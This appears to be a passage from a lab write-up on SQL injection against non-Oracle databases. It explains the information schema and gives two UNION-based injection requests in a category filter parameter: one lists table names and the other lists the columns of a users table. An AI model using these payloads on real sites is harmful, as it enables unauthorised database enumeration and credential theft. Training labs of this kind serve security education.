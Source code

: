 Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query `information_schema.tables` to list the tables in the database:

`SELECT * FROM information_schema.tables`

### Lab: SQL injection attack, listing the database contents on non-Oracle databases

We start by looking at the interesting tables

```
GET /filter?category=Lifestyle' UNION SELECT table_name, null FROM information_schema.tables--
```

<figure><img src="../../.gitbook/assets/image (819).png" alt=""><figcaption></figcaption></figure>

then check the columns in that table to print out the interesting values

```
GET /filter?category=Lifestyle' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users_znlzdn'--
```

<figure><img src="../../.gitbook/assets/image (817).png" alt=""><figcaption></figcaption></figure>
